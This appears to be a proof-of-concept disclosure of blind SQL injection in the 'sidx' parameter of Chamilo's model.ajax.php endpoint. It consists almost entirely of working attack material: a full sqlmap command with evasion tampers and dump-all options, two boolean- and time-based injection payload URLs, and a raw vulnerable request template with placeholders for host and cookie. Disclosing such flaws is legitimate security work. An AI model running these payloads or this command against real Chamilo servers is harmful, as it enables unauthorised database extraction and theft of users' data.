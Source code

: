 ## Time based and boolean based SQLi via the sidx parameter

The following command was used,
```python3 sqlmap.py -r chamilo --level 5 --risk 3 --tamper between,charencode --random-agent --dbms mysql -a```

The command used in the demo is used to shorten the video.


```
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://cham/main/inc/ajax/model.ajax.php?a=get_sessions&list_type=simple&filters[groupOp]=AND&_search=false&nd=1745121263681&rows=20&page=1&sidx=(SELECT (CASE WHEN (2271=2271) THEN '' ELSE (SELECT 3569 UNION SELECT 1030) END))&sord=asc
```

```
Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://cham/main/inc/ajax/model.ajax.php?a=get_sessions&list_type=simple&filters[groupOp]=AND&_search=false&nd=1745121263681&rows=20&page=1&sidx=(CASE WHEN (8157=8157) THEN SLEEP(5) ELSE 8157 END)&sord=asc
```

The vulnerable request:
```
GET /main/inc/ajax/model.ajax.php?a=get_sessions&list_type=simple&filters%5BgroupOp%5D=AND&_search=false&nd=1745121263681&rows=20&page=1&sidx=*&sord=asc HTTP/1.1
Host: <REPLACE ME>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://<REPLACE ME>/main/session/session_list.php
Cookie: <REPLACE ME>
```

demo:
